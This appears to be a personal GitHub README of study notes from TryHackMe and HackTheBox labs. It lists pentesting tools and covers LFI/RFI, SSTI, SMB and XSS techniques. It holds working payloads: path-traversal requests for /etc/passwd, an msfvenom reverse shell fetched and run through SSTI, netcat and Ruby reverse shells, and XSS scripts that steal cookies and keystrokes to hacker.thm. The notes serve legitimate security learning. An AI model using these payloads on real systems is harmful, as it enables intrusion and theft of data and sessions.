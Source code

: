 ---

#   Computer Science, Cybersecurity, and Software Engineering

 <script src="https://tryhackme.com/badge/1210884"></script>

<details>

<summary>My Reading List & Resources </summary>

* Linux Basics for Hackers Getting Started with Networking, Scripting, and Security in Kali (OccupyTheWeb)
* Penetration Testing A Hands-On Introduction to Hacking (Weidman, Georgia)
* Becoming A Master Hacker (OccupyTheWeb)
* Competitive Programming in Python 128 Algorithms to Develop your Coding Skills (Christoph Dürr, Jill-Jênn Vie)
* Real-World Bug Hunting A Field Guide to Web Hacking (Peter Yaworski)
* Codecademy -> https://www.codecademy.com/profiles/JeremyLaratro
* TryHackme.com -> https://tryhackme.com/p/jeremylaratro
* HackTheBox.com -> 
* Hacktricks.xyz
* picoctf.org -> https://play.picoctf.org/users/jeremylaratro
* LeetCode -> https://leetcode.com/jeremylaratro/

</details>


----------
>Overview, Tools, and Pathways
Many tools exist for various different purposes when testing and exploiting systems. The tools necessary for to exploit any machine will vary but in most cases, begin in a similar fashion which is enumeration and reconnaissance. 
The following tools are ones which I have used for challenges, machines, and CTFs.

<details>

<summary>

General Enumeration | Scanning | Reconnaissance

</summary>

>>#### whatweb
>- This is often the first tool used to determine basic info about the web server (in cases where a domain is the given target) and to obtain the IP address.

>>####  Nmap  
>- Among the most commonly used tools, nmap allows one to scan the target machine and gain a great deal of information about it, including open ports, services, and even script execution.

>>####  wpscan  
>- If a wordpress site is identified, wpscan is extremely useful in finding potential vulnerabilities by enumerating plugins along with various other powerful features including bruteforce attacks if xmlrpc is enabled.

>>####  Nessus  
>- Nessus is an all-around vulnerability scanner and can help identify potential vulnerabilities and avenues of attack

>>####  OWASP Zap  
>- OWASP Zap is a GUI-based scanning tool that is focused on the OWASP top 10 vulnerabilities. This is another tool that can be useful in determining potential vulnerabilities.

>>####  Dig, dnsenum, and nslookup
>- These tools, along with various others, are useful in automating the process of DNS queries and can be extremely useful in reconnaissance of a website and in understanding the ownership and relationship between domain names and IPs. 
></details>
<details><summary> Exploitation and Investigation Tools
</summary>

>There are thousands and thousands of different tools, scripts, and applications out there for all the various different attack types and vulnerabilities. The following are ones which I have personally used in labs and challenges and which I am at least fairly comfortable using.

>#### Web Based Exploitation
>>####  BURP Suite
>> - Powerful proxy -> intercept and modify requests, leading to a large variety of potential uses
>>####  SQLMap 
>> - SQLi scanner and exploitation tool
>>####  dirb, dirbuster, gobuster 
>> - Directory enumeration
>>####  ffuf, hydra 
>> - Web fuzzing, directory enumeration, account brute forcing
>>####  sstimap, lfimap 
>> - LFI and SSTI vulnerability scanner and exploitation tool
>>####  xsssniper
>> - XSS scanner and exploitation tool
>>####  rapidscan 
>> - Tool which essentially creates a suite of other popular exploitation tools like sqlmap, dirb, etc. 

>#### Network and Offline Exploitation
>>####  Metasploit
>> - Massive collection of known exploits, scripts, payloads, and database
>>####  hashcat
>> - GUI-accelerated password cracking tool. Extremely quick.
>>####  John the Ripper
>> - Another password cracking tool, particularly useful for it's auto-detection and john2'other' conversion scripts. 
>>####  cewl, crunch
>> - Custom password and wordlist generators

>#### Investigative Tools
>>####  Shodan
>> - Extremely powerful banner search engine. 
>>####  binwalk, exiftools, strings, cat
>> - Linux file analysis tools
</details>
<details><summary> 
Areas I'd Like to Improve </summary>

>####  Reverse Engineering
> - One of the areas I'd specifically like to improve in is reverse engineering, using tools like Ghidra and Apktool.
>####  Programming
> - Currently, I am most comfortable programming with Python, then Java, but would like to 
improve my C++ skills as I believe that understanding C++ and other lower-level 
languages improves on the greater understanding of underlying computer systems. I'd also like to 
learn more languages, in general. 
>#### SSTI and RCE
> - I would like to get less reliant upon tools when attempting to exploit SSTI and RCE vulnerabilities, and need
to improve my understanding of PHP and common web frameworks in order to be able to develop my own exploits.
</details>

----------

> Notes from labs, CTF's, and machine's on HackTheBox, TryHackMe, OWASP Juice Shop, etc.

<details>

<summary>

Local File Inclusion and Remote File Inclusion Overview 

</summary>

># LFI

Notes from TryHackMe's LFI/RFI room. 

Local file inclusion is a vulnerability that can allow attackers to 
traverse the file system due to improperly or non-sanitized requests. 
This may allow an attacker to access sensitive files, ie /etc/passwd

Commonly used attack vector for LFI is '/../../'

````
get.php?file=../../../../etc/passwd
````

This allows traversal through layers of the directories to the root or target folder/directory. How many times depends on the specific system.
This can be determined by encouraging an error, ie:

````
 index.php?lang=jfbdsgd
 ````
 which then may return an error containing something along the lines of:

````
'..
 in /var/www/html/lab2.php on line 26'
 ````
 
 The presence of 4 layers can be derived from this, and thus, 4 levels can be used for the attack:

 ```
 index.php?lang=../../../../etc/passwd
 ```
 OS info can be derived as well:

```
 /get.php?file=../../../../boot.ini
 /get.php?file=../../../../windows/win.ini
 
 ```
 Sanitization and filter evasion:
 
 In PHP 5.3.3 and below, NULL bytes can be used to signify end of string and stop .php extension from being appended
 index.php?lang=../../../../etc/passwd%00
 
 Using a '.' can also be used to signify staying within the directory

````
 ../../../../etc/passwd/.
 ````
 Forced directory - if developer forces a directory, evasion is possible by understanding where that directory lies within the levels.
 Evasion may be as simple as adding an extra layer, ie:

````
 /../../../etc/passwd  --> /../../../../etc/passwd
 ````

 Burp suite can be used to evade any request filters that may filter or change characters
Try POST, GET 
If _REQUEST is being used, take advantage of cookies: 

````
POST /challenges////////////chall3.php HTTP/1.1
Host: 10.10.120.210
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.120.210/challenges///////////chall3.php?file=
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: =../../../etc/flag3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

file=../../../etc/flag3%00
```` 

--------------------------

># RFI
 
RFI is similar to LFI but involves remote inclusion of files and potentially RCE. It depends on the function:
allow_url_fopen

Overview:
Payload is hosted on attackers servers -> payload injected via HTTP requests using include function -> payload is executed

````
GET /page.php?file=
lang=http://0.0.0.0/r.elf
````

````
O:8:"_construct":1:{s:4:"cookie";s:10:"Some data!";} 
````

Tools:

````
- lfimap
- lfitester
- vailyn
````

</details> 

<details>

<summary>Server-Side Template Injection - SSTI</summary>
Notes from SSTI Lab on TryHackMe.

Common test-cases:

````
{7*7}
{{7*7}}'
a{{bar}}b
{var} ${var} {{var}} <%var%> [% var %]

````

1.  Start local server.

````
python3 -m http.server 80

````
2. Test functionality of python server remotely using JS and curl.

````
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.5")}

10.10.16.5

````
3. Create reverse shell payload and initialize a netcat listener for it. 

````
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.5.0.2 LPORT=5010 -f elf > r.elf

nc -lvnp 443

````
4. Perform the SSTI, getting RCE on the server.

````
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.5.0.2:5003/r.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}

*{os.system("nc -e /bin/sh 10.10.16.5 5010")}
<%=system("ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.5.0.2%22%2C5007%29%29%27")%>
````

Tools:

````

- sstimap

````

</details>

<details>

<summary>SMB Exploitation</summary>
SMB- server message block
* Notes from TryHackMe's SMB room

Enumeration / Recon:
SMB uses port 445
A common service name is 'microsoft-ds'
After enumerating the system and finding a potential SMB exploitation pathway:
Further enumerate the SMB service using smbclient:

````

smbclient -L ip 

````

* Share names will be listed

	
Check for the guest or anonymous login, ie:
Sharenames:

````
ADMIN$
C$
WorkShares
````

After identifying potentially vulnerable share, attempt login:

````
smbclient \\\\ip\\<share>>
````

Upon entry --> 
* browse directories, look for sensitive files
* potential path traversal, pivot to other shares


</details>
<details>
<summary>XSS</summary>
XSS
Cross site scripting
Injection attack where a malicious payload can be injected into a web page and potentially result in an attacker getting user, staff, or other sensitive data

Check
	
~~~
<script>alert('XSS');</script>
~~~
	
Session stealing:
	
~~~
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
~~~
Key loggger:
	
~~~
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
~~~
	

Business Logic 
	
~~~
<script>user.changeEmail('attacker@hacker.thm');</script>
~~~

#### Stored
Stored XSS is XSS where a payload is injected into a webpage, and stored at the server level, resulting in that malicious code's presentation to other users of the site. This allows for various serious threats. 
Attack Vectors:
Comments on a blog
User profile information
Website Listings


#### Reflected
Reflected XSS, on the other hand, is XSS where the payload is reflected only on the page instance itself. Attackers must send a link to the altered page to a victim to take advantage of reflected XSS, as it is not stored at the server level.
Attack Vectors:
Parameters in the URL Query String
URL File Path 

	
#### DOM
DOM-based XSS depends on JS code executing locally and not server-side. This allows for an attacker to exploit specific JS function and then, like reflected XSS, send a link with the malicious code injected. Requires a deeper level of JS to exploit. 
Attack Vectors:
eval()

	
#### Blind
Blind XSS is XSS where malicious code is presented to other users, as in stored XSS, however you are unable to see it. In order for attackers to take advantage of this XSS, an HTML callback is incorporated into the payload.


Evasion:
	
~~~
"><script>alert(1);</script>
~~~
	
Close tag of encapsulating div:
	
~~~
</textarea><script>alert(1);</script>
~~~
	
Filter evasion:
Filter for 'script' --> sscriptcript
	
~~~
<sscriptcript>alert(1);</sscriptcript>
~~~
	
Within an image:
	
~~~
/images/cat.jpg" onload="alert(1);
~~~
	
Tools:
	
````
	
- xsshunter
- xsssniper
- xssstealer
- garud
- 0d1n
````

</details>

